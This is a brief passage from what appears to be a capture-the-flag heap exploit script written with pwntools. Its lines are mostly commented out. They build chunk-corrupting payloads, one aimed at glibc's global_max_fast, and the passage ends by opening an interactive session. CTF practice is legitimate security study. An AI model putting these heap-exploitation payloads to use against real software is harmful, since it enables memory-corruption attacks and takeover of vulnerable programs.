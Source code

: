 		# #delete(6)
		# delete(4)
		# payload = '\x00'*0x20 + '\xe1'
		# add(8,'a',payload)		#8
	
		# delete(5)
		# delete(6)
		# payload = '\x00'*0x2c + p32(0x21) + '\x00'*0x1c + p32(0x51)
		# payload += p32(0) + p32(global_max_fast-0x8)
		# payload += '\x00'*0x40 + p32(0x50) + p32(0x30)
		# payload += '\x00'*0x2c + p32(0x11) + p32(0)*2
		# add(0xd8,payload,'b\n')
	
		# add(0x48,'a','b')
		p.interactive()
	hack()